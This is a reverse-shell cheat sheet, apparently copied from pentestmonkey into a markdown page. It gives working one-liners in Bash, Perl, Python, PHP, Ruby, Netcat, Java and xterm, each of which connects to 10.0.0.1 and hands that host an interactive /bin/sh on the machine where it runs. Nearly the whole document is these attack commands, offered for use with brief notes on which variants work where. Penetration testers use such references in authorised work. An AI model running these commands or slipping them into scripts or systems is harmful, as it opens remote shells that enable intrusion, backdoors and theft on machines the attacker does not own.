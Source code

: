 ### I GOT THIS LIST FROM http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

## PERL
Here’s a shorter, feature-free version of the perl-reverse-shell:

```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

There’s also an alternative PERL revere shell here.

## Python
This was tested under Linux / Python 2.7:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

## Ruby

```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```nc -e /bin/sh 10.0.0.1 1234```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

## Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```xterm -display 10.0.0.1:1```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

## Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

```xhost +targetip```
